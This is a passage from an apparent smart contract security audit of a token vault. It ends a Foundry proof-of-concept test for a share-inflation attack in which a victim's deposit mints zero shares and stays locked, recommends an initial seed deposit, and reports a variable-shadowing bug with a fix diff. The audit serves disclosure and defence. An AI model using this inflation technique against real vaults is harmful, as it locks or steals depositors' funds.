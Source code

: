 ```solidity
        asset.approve(address(vault), 1e18);
        vault.deposit(1e18, bob);
        vm.stopPrank();

        // due to manipulation they receive 0 shares
        assertEq(0,vault.balanceOf(bob));

        // attacker redeems their shares
        vault.redeem(vault.balanceOf(address(this)), address(this), address(this));

        // even though the attacker loses 0.1 tokens
        assertEq(9.9e18 + 9,asset.balanceOf(address(this)));
        // the vicims tokens are lost and locked in the contract
        assertEq(1.1e18,asset.balanceOf(address(vault)));
    }
```

As you can see the attacker needs to pay `0.1e18` of assets for the attack. But they have effectively locked the victims `1e18` tokens in the contract.

Even though this is not profitable for the attacker it will leave the vault in a weird state and the victim will still have lost their tokens.

## Recommendations

Consider mitigating this with an initial deposit of a small amount. This is the most common and easy way to make sure this is not possible, as long as it is an substantial amount it will make this attack too costly.



# [L-01] `getTVLLimits` will return the wrong value due to variable shadowing.

The `getTVLLimits` function's local state variables (`maxPerDeposit` and `maxTotalDeposits`) are using the same names as the global state variables. This variable shadowing will cause the returned value to be 0, instead of the expected global state values for `maxPerDeposit` and `maxTotalDeposits`. Update the function and remove the local state variable declarations so that the function will return the expected value.

```diff
-    function getTVLLimits() external view returns (uint256 maxPerDeposit, uint256 maxTotalDeposits) {
+    function getTVLLimits() external view returns (uint256, uint256) {
        return (maxPerDeposit, maxTotalDeposits);
    }
```



# [L-02] `maxMint` should return shares corresponding to `maxPerDeposit`.

